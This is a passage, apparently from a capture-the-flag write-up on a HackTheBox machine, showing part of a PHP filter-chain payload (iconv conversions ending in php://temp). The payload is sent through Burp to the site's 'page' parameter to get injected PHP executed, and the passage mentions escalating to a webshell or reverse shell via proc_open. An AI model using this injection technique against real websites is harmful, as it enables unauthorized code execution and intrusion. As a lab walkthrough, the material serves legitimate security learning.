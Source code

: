 ```
rt.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

```

I’ll visit `http://dev.siteisup.htb/?page=admin` to get that request into Burp. Now I can send that request over to Repeater, and I’ll replace `admin` with that full chain above. On sending, it works:

![image-20230118201701779](https://0xdfimages.gitlab.io/img/image-20230118201701779.png)

There’s some extra junk at the end, but the PHP must have been added to the page and executed to print “0xdf was here”.

If I can run `echo`, I can also run `proc_open` just like above, using this to get a webshell and/or a reverse shell, though this can be very tricky as the URL gets long, and then the site will start 414 Request-URI Too Long errors. There’s probably a way to bypass this by loading remote code or something.